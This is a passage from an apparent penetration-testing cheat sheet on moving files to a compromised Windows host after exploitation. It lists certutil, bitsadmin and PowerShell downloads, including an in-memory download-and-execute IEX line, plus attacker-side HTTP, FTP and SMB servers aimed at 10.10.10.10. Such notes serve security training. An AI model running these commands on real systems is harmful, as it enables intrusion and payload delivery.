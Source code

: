 COMMON PITFALLS:
- AV might block enumeration tools
- PowerShell execution policy restrictions
- Limited user privileges affecting enumeration

### Advanced Post-Exploitation Techniques

#### File Transfer Methods

##### Windows File Transfers
```batch
REM Certutil
certutil.exe -urlcache -f http://10.10.10.10/file.txt file.txt

REM PowerShell
# PowerShell WebClient
Invoke-WebRequest -Uri "http://10.10.10.10:8000/filename.txt" -OutFile "filename.txt"

# PowerShell DownloadString (execution in memory)
powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/script.ps1')

REM Bitsadmin (often allowed through filters)
bitsadmin /transfer mydownloadjob /download /priority normal http://10.10.10.10/file.exe C:\Users\Public\file.exe
```

##### Python HTTP Server Options
```bash
# Basic server
python3 -m http.server 80

# With SSL
openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes
python3 -c "
import http.server, ssl;
server = http.server.HTTPServer(('0.0.0.0', 443), http.server.SimpleHTTPRequestHandler);
server.socket = ssl.wrap_socket(server.socket, certfile='./server.pem', server_side=True);
server.serve_forever()"
```

##### FTP Transfer
```bash
# On attacker (requires python3-pyftpdlib)
python3 -m pyftpdlib 21

# On victim (Windows)
ftp 10.10.10.10
> get file.txt
```

##### SMB Transfer
```bash
# On attacker
impacket-smbserver share $(pwd) -smb2support

# On victim
copy \\10.10.10.10\share\file.exe .
```
